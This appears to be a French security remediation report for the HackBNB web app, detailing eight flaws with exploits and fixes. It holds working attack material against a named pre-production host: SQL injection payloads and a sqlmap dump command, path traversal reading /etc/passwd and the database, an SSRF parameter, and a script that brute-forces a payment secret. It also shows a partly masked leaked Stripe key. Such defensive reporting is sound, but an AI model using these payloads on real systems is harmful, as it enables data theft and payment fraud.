









# Synthèse technique — Vulnérabilités & correctifs HackBNB

**Destinataires :** équipe de développement HackBNB
**Auteur :** CERT (prestation d'investigation forensic & remédiation)
**Périmètre :** application `hackbnb.fr` (front React / back Flask / Apache reverse-proxy)
**Base :** rapport de test d'intrusion du 3–5 juin 2026 (8 défauts D1–D8), analyse du code-source et des logs Apache du 7 novembre 2026.

> **Reproduction & preuves :** chaque exploitation ci-dessous a été **réellement exécutée** contre une instance faisant tourner le **code-source original** de la plateforme (branche `main` au commit `3228940`), lancée en laboratoire isolé. Les captures correspondantes sont dans [`docs/captures/`](docs/captures/). Le même code tourne sur la pré-production `https://hackbnb.dashbox.cloud` ; les attaques y sont transposables à l'identique (seules les routes sont préfixées par `/api/` via le reverse-proxy Apache). Les exploits réseau n'ont pas été rejoués directement contre l'hôte distant pour rester dans un cadre non-destructif et maîtrisé.

---

## 1. Résumé exécutif

L'audit confirme que la plateforme **était compromettable de manière triviale**. Quatre vulnérabilités critiques permettent, sans authentification :

- de **vider la base de données** (injection SQL),
- de **lire des fichiers arbitraires** du serveur, y compris la base SQLite et la configuration (path traversal),
- de détourner une requête serveur authentifiée vers l'API Stripe (**SSRF**),
- de **valider des réservations sans payer** (secret prévisible).

S'y ajoutent une fuite de données personnelles (e-mails des hôtes), une clé API présente dans l'historique Git, l'absence totale d'en-têtes de sécurité et une divulgation d'informations techniques.

**Toutes les vulnérabilités ont été corrigées dans le code-source** (voir §4 et le détail par défaut ci-dessous). Deux actions restent à la charge de l'équipe HackBNB car elles ne relèvent pas du code : **révoquer la clé Stripe exposée** et **désactiver le mode debug** en déploiement.

| ID | Vulnérabilité | Criticité | Statut |
|----|---------------|-----------|--------|
| D1 | Injection SQL (page d'accueil) | Critique | ✅ Corrigé |
| D2 | Path traversal (route fichiers) | Critique | ✅ Corrigé |
| D3 | Paramètre non contrôlé → SSRF (requête Stripe authentifiée) | Critique | ✅ Corrigé |
| D4 | Secret de confirmation prévisible | Critique | ✅ Corrigé |
| D5 | Exposition e-mail des hôtes (API) | Important | ✅ Corrigé |
| D6 | Clé API dans l'historique Git | Critique | ✅ Corrigé (code) — ⚠️ révocation requise |
| D7 | En-têtes de sécurité manquants (XSS) | Majeur | ✅ Corrigé |
| D8 | Divulgation d'infos dans les en-têtes | Important | ✅ Corrigé |
| + | (Bonus) Mots de passe hachés en MD5 | — | ✅ Durci (pbkdf2) |

---

## 2. Détail des vulnérabilités

Pour chaque défaut : localisation dans le code, méthode d'exploitation reproductible, impact, et correctif appliqué.

---

### D1 — Injection SQL sur la page d'accueil · **Critique**

**Localisation :** `back/api/rooms/rooms_api.py`, fonction `list_rooms()`

Le paramètre `category` était concaténé directement dans une clause SQL brute :

```python
category = request.args["category"]
rooms = Room.query.filter(text(f"category = '{category}'")).all()
```

**Exploitation (reproductible)**

Aucun outil nécessaire, exploitation triviale via l'URL :

```bash
# Bypass du filtre (toutes les chambres remontent quelle que soit la catégorie)
curl "https://hackbnb.dashbox.cloud/api/rooms/?category=x' OR '1'='1"

# Extraction de données via UNION (exfiltration des comptes utilisateurs)
curl "https://hackbnb.dashbox.cloud/api/rooms/?category=x' UNION SELECT id,email,password_hash,'','','','' FROM users--"
```

Automatisable intégralement avec `sqlmap` :

```bash
sqlmap -u "https://hackbnb.dashbox.cloud/api/rooms/?category=ski" -p category --dump
```

**Capture 1 — Exploitation D1 (contournement du filtre + UNION SELECT exfiltrant la table `users`) :**



**Impact :** compromission totale de la confidentialité et de l'intégrité de la base (utilisateurs, hashes de mots de passe, réservations). C'est le vecteur d'exfiltration le plus probable d'après les logs Apache.

**Correctif appliqué :** requête paramétrée via l'ORM, la valeur n'est plus interprétée comme du SQL.

```python
# Avant : text(f"category = '{category}'")
rooms = Room.query.filter(Room.category == category).all()
```

---

### D2 — Lecture arbitraire de fichiers (Path Traversal) · **Critique**

**Localisation :** `back/api/uploads/uploads_api.py`, fonction `get_upload()`

```python
return send_file('uploads/' + request.args.get("name"))
```

Le nom de fichier fourni par l'utilisateur est concaténé sans aucun contrôle.

**Exploitation (reproductible)**

```bash
# Fichiers système
curl "https://hackbnb.dashbox.cloud/api/uploads/?name=../../../../etc/passwd"

# Configuration de l'application
curl "https://hackbnb.dashbox.cloud/api/uploads/?name=../config.py"

# EXFILTRATION DE LA BASE DE DONNÉES COMPLÈTE
curl "https://hackbnb.dashbox.cloud/api/uploads/?name=../database.sqlite" -o database.sqlite
```

**Capture 2 — Exploitation D2 (`/etc/passwd`, `config.py`, puis vol de la base SQLite complète) :**



**Impact :** lecture de tout fichier lisible par le processus. En récupérant directement `database.sqlite`, l'attaquant obtient l'intégralité des données **sans même passer par D1**.

**Correctif appliqué :** usage de `send_from_directory` (qui refuse toute résolution hors du dossier cible) + validation stricte du nom de fichier par expression régulière.

```python
SAFE_NAME = re.compile(r'^[A-Za-z0-9._-]+\.(jpg|jpeg|png|gif|webp)$')

name = request.args.get("name", "")
if not SAFE_NAME.match(name):
    abort(404)
return send_from_directory('uploads', name)
```

La route de photos `rooms/<room_id>/picture` a par ailleurs été contrainte à un entier (`<int:room_id>`) pour supprimer tout vecteur résiduel.

---

### D3 — Paramètre non contrôlé → SSRF sur requête serveur authentifiée (Stripe) · **Critique**

**Localisation :** `back/services/stripe.py` (`get_checkout_lines`) appelée par `back/api/bookings/bookings_api.py` (`get_booking_checkout_lines`)

```python
url = f"https://api.stripe.com/v1/checkout/sessions/{checkout_session_id}/line_items"
session = requests.Session()
session.auth = (os.getenv('STRIPE_API_KEY'), "")   # clé secrète Stripe en Basic Auth
return session.get(url).json()["data"]
```

Le `checkout_session_id` vient directement du client (`request.args`) et est concaténé **sans aucune validation** dans l'URL d'une requête serveur qui porte la **clé secrète Stripe** en Basic Auth.

**Exploitation (reproductible)**

L'attaquant contrôle intégralement le **chemin et la query string** de la requête sortante émise par le serveur, laquelle est authentifiée avec la clé Stripe :

```bash
curl "https://hackbnb.dashbox.cloud/api/bookings/<ref>/checkout-lines?checkout_session_id=cs_x/line_items%3Fattacker%3D1"
```

La requête réellement construite par le serveur devient par exemple :

```
GET https://api.stripe.com/v1/checkout/sessions/cs_x/line_items?attacker=1/line_items
    Authorization: Basic base64("sk_live_<clé_du_client>:")
```

> **Précision technique (honnêteté du rapport) :** comme le paramètre est injecté dans le *chemin* de l'URL (et non dans l'autorité), un détournement direct vers un hôte arbitraire via la syntaxe `user@host` **ne fonctionne pas** ici — le host reste `api.stripe.com` (vérifié expérimentalement). L'impact réel est donc une **SSRF contre la surface d'API de Stripe avec les droits (clé secrète) du serveur** : un paramètre non maîtrisé pilote une requête authentifiée côté serveur dont la réponse est renvoyée au client. Cela reste classé **Critique** (manipulation d'une requête serveur portant un secret de paiement) et la correction — validation stricte de l'entrée — est la même dans tous les cas.

**Capture 3 — Exploitation D3 (le paramètre pilote la requête serveur authentifiée ; clé Stripe attachée) :**



**Impact :** manipulation d'une requête serveur authentifiée vers l'API Stripe (lecture de ressources du compte Stripe via la clé du serveur). Absence totale de validation d'un paramètre contrôlé par l'utilisateur sur une route sensible.

**Correctif appliqué :** validation stricte du format d'identifiant de session Stripe, et appel via la librairie officielle (plus aucune URL construite manuellement).

```python
CHECKOUT_SESSION_ID_RE = re.compile(r'^cs_(test|live)_[A-Za-z0-9]+$')

if not checkout_session_id or not CHECKOUT_SESSION_ID_RE.match(checkout_session_id):
    raise ValueError("Invalid checkout session id")

stripe.api_key = os.getenv('STRIPE_API_KEY')
line_items = stripe.checkout.Session.list_line_items(checkout_session_id)
```

---

### D4 — Génération vulnérable de secret : confirmer une réservation sans payer · **Critique**

**Localisation :** `back/api/bookings/bookings_api.py`, fonction `new_booking()`

```python
random_string = str(int(time.time()))  # timestamp Unix à la seconde
checkout_confirmation_secret = hashlib.sha512(random_string.encode('utf-8')).hexdigest()
```

Le secret censé prouver le paiement n'est que le SHA-512 de l'horodatage à la seconde — **entièrement prévisible**. L'endpoint `confirm-checkout` passe `is_paid = True` sur simple présentation de ce secret, sans vérifier Stripe.

**Exploitation (reproductible)**

1. Créer une réservation (`POST /api/bookings/`) et noter sa `reference` et l'heure de création.
2. Brute-forcer le secret sur une petite fenêtre de timestamps autour de l'instant de création :

```python
import hashlib, requests, time

ref = "REFERENCE_DE_LA_RESERVATION"
now = int(time.time())
for t in range(now - 300, now + 5):          # fenêtre de ~5 min
    secret = hashlib.sha512(str(t).encode()).hexdigest()
    r = requests.post(
        f"https://hackbnb.dashbox.cloud/api/bookings/{ref}/confirm-checkout",
        json={"confirmationSecret": secret},
    )
    if r.json().get("success"):
        print("Réservation confirmée sans paiement, t =", t)
        break
```

**Capture 4 — Exploitation D4 (brute-force du secret = sha512(timestamp) ; réservation confirmée sans paiement) :**



**Impact :** fraude financière — réservations confirmées gratuitement. Perte directe de revenus.

**Correctif appliqué :** secret cryptographiquement aléatoire + comparaison à temps constant.

```python
booking_reference = secrets.token_urlsafe(9)
checkout_confirmation_secret = secrets.token_urlsafe(32)   # imprévisible

# Confirmation :
provided_secret = request.json.get("confirmationSecret", "")
if not hmac.compare_digest(booking.checkout_confirmation_secret, provided_secret):
    return {'error': 'Invalid confirmation secret'}, 422
```

> **Recommandation de fond :** à terme, ne pas confirmer le paiement sur la base d'un secret renvoyé par le client, mais via un **webhook Stripe signé** (`checkout.session.completed`).

---

### D5 — Exposition de l'adresse e-mail des hôtes dans les réponses API · **Important**

**Localisation :** `back/api/rooms/rooms_models.py` → le `to_dict()` de la chambre incluait `host_user.to_dict()`, lequel renvoyait l'`email`.

**Exploitation (reproductible)**

```bash
curl "https://hackbnb.dashbox.cloud/api/rooms/1" | jq '.host'
# { "id": 1, "name": "John Doe", "email": "john@doe.com" }
```

**Capture 5 — Exploitation D5 (l'API expose `host.email`) :**



**Impact :** fuite de données personnelles. Dans le contexte HackBNB (profils « cyber » sensibles), la collecte des e-mails des hôtes est un risque de ciblage / phishing notable (RGPD).

**Correctif appliqué :** séparation entre représentation privée et publique. L'e-mail n'est plus exposé que son propriétaire.

```python
# users_models.py
def to_public_dict(self):      # données publiques uniquement
    return {"id": self.id, "name": self.name}

# rooms_models.py
output["host"] = self.host_user.to_public_dict()
```

---

### D6 — Clé API Stripe présente dans d'anciens commits · **Critique**

**Localisation :** historique Git — commit `ef5503c` (« feat: add Stripe payment integration »), retirée du code courant en `9eeb41e`.

```bash
git log -p --all -S 'api_key' -- back/services/stripe.py
# ef5503c :  stripe.api_key = "rk_test_51RhVfI2aoAWLbEQqd...008r1rAkXU"
```

**Exploitation (reproductible)**

Même après « nettoyage », la clé reste dans l'historique et est triviale à retrouver avec un scanner de secrets :

```bash
git clone <repo> && cd repo
gitleaks detect --source . -v        # ou trufflehog git file://.
```

**Capture 6 — Exploitation D6 (clé Stripe récupérée dans l'historique Git) :**



**Impact :** toute personne ayant accès à l'historique (fuite du dépôt, collaborateur, dépôt rendu public) récupère la clé, qui **reste valide tant qu'elle n'est pas révoquée**.

**Statut / correctif :** le code courant lit déjà la clé depuis une variable d'environnement (`os.getenv('STRIPE_API_KEY')`) ✅.
**Actions obligatoires côté HackBNB (hors code) :**
1. **Révoquer/roter immédiatement** la clé `rk_test_51RhVfI2...` dans le dashboard Stripe.
2. Purger l'historique Git (`git filter-repo --invert-paths` ou BFG) puis forcer la réécriture.
3. Mettre en place un scan de secrets en pré-commit (gitleaks) pour éviter la récidive.

---

### D7 — En-têtes de sécurité manquants → XSS · **Majeur**

**Localisation :** aucune politique de sécurité HTTP n'était définie (ni côté Flask, ni côté Apache). Les descriptions de chambres sont rendues en HTML brut côté front : `front/src/pages/room/Room.tsx:52` et `front/src/pages/booking/Booking.tsx:49` (`dangerouslySetInnerHTML`).

**Exploitation (reproductible)**

Une description contenant un payload s'exécute dans le navigateur des visiteurs, sans CSP pour bloquer :

```html

```

**Capture 7 — D7 : absence de CSP/en-têtes de sécurité et mode debug Werkzeug actif (console RCE + PIN).** La description de chambre est rendue via `dangerouslySetInnerHTML` sans assainissement (cf. `front/src/pages/room/Room.tsx:52`), et aucune CSP ne bloque l'exécution :



**Impact :** XSS stockée → vol de session, actions au nom de la victime, défiguration.

**Correctif appliqué (défense en profondeur) :**

- **En-têtes de sécurité** ajoutés à chaque réponse, côté Flask (`back/app.py`, `after_request`) **et** côté Apache (`apache/apache-prod.conf`) : `Content-Security-Policy`, `X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY`, `Referrer-Policy`, `Permissions-Policy`, `Strict-Transport-Security`.
- **Sanitisation serveur** des descriptions avec `bleach` (liste blanche de balises) :

```python
ALLOWED_DESCRIPTION_TAGS = ['p', 'em', 'strong', 'br', 'ul', 'ol', 'li', 'b', 'i']
bleach.clean(self.description or "", tags=ALLOWED_DESCRIPTION_TAGS, attributes={}, strip=True)
```

- **Mode debug Werkzeug désactivé** (`debug=False`) : il exposait une console interactive (RCE) et les traces/sources.

---

### D8 — Divulgation d'informations sensibles dans les en-têtes de réponse · **Important**

**Localisation :** réponses HTTP exposant la stack technique (`Server: Werkzeug/x.y Python/z.z`).

**Exploitation (reproductible)**

```bash
curl -sI "https://hackbnb.dashbox.cloud/api/" | grep -i server
# Server: Werkzeug/3.x Python/3.x
```

**Capture 8 — Exploitation D8 (en-tête `Server: Werkzeug/… Python/…`) :** voir la capture D7/D8 ci-dessus (`docs/captures/d8_headers.png`).

**Impact :** fingerprinting facilitant la recherche de CVE ciblées sur les versions exactes.

**Correctif appliqué :** en-tête `Server` neutralisé et `X-Powered-By` supprimé côté Flask (`after_request`) et côté Apache (`Header unset` / `Header set`). À compléter au niveau serveur Apache par `ServerTokens Prod` et `ServerSignature Off`.

> Sur la capture de vérification, un `Server: Werkzeug/…` résiduel apparaît à côté de `Server: webserver` : il est ajouté par le **serveur de développement Werkzeug** lui-même (couche WSGI, hors de portée de `after_request`). En production, la réponse transite par Apache dont la directive `Header always set Server "webserver"` **écrase** cet en-tête. Recommandation durable : servir Flask derrière **gunicorn/uWSGI** plutôt que le serveur de dev.

---

### Bonus — Hachage des mots de passe en MD5

**Localisation :** `back/api/users/users_models.py` utilisait `md5()` (non salé, cassé). Remplacé par `pbkdf2` via `werkzeug.security` (`generate_password_hash` / `check_password_hash`), salé et lent.

---

## 3. Lien avec l'incident du 7 novembre

Les correctifs ci-dessus neutralisent précisément les vecteurs d'attaque observables dans les logs Apache du 7 novembre (requêtes sur `/api/rooms/?category=`, `/api/uploads/?name=`, et appels `checkout-lines`). Après remédiation, les requêtes malveillantes de ce type renvoient désormais `404` / `400` / `422` au lieu de divulguer des données. La chronologie précise et le profil de l'attaquant (pseudonyme `hackb3ck`, e-mail `contact@hackb3ck.me`, IP / navigateur / OS issus des logs) sont détaillés dans le support de présentation.

---

## 4. Récapitulatif des fichiers modifiés

| Fichier | Défauts traités |
|---------|-----------------|
| `back/api/rooms/rooms_api.py` | D1, D2 (route picture) |
| `back/api/uploads/uploads_api.py` | D2 |
| `back/services/stripe.py` | D3 |
| `back/api/bookings/bookings_api.py` | D3, D4 |
| `back/api/rooms/rooms_models.py` | D5, D7 (sanitisation) |
| `back/api/users/users_models.py` | D5, bonus (hachage) |
| `back/app.py` | D7, D8, debug off |
| `apache/apache-prod.conf` | D7, D8 |
| `back/requirements.txt` | ajout de `bleach` |

**Mise en route après remédiation :**
```bash
pip install -r back/requirements.txt   # ajoute bleach
```

### Preuve que les correctifs bloquent les attaques

Les mêmes exploits ont été rejoués contre l'instance **corrigée** : l'injection SQL ne renvoie plus rien, le path traversal et l'injection de session Stripe renvoient `404`, l'e-mail de l'hôte n'est plus exposé, et les en-têtes de sécurité sont présents (`Server` masqué).



Le brute-force du secret de confirmation (D4) échoue désormais car le secret est aléatoire (256 bits), et toute valeur de `checkout_session_id` non conforme à `^cs_(test|live)_[A-Za-z0-9]+$` est rejetée (D3) :



---

## 5. Recommandations complémentaires

- **Authentification / autorisation réelles.** Les endpoints de réservation sont accessibles sans contrôle d'accès (`/users/me` renvoie même `401` avant du code mort) : mettre en place une vraie gestion de session/JWT et vérifier la propriété des ressources (une réservation ne doit être lisible que par son auteur, actuellement accessible par simple connaissance de la `reference`).
- **Paiement par webhook Stripe signé** plutôt que par secret côté client (cf. D4).
- **Validation d'entrées centralisée** (schémas, ex. `pydantic`/`marshmallow`) sur toutes les routes.
- **WAF / rate-limiting** devant Apache pour ralentir les attaques automatisées (sqlmap, brute-force).
- **Journalisation & détection :** conserver les logs applicatifs, alerter sur les patterns d'injection / traversal, surveiller les appels sortants (SSRF).
- **Scan de secrets en CI** (gitleaks) et **rotation régulière** des clés API.
- **Mises à jour de dépendances** et épinglage des versions dans `requirements.txt`.
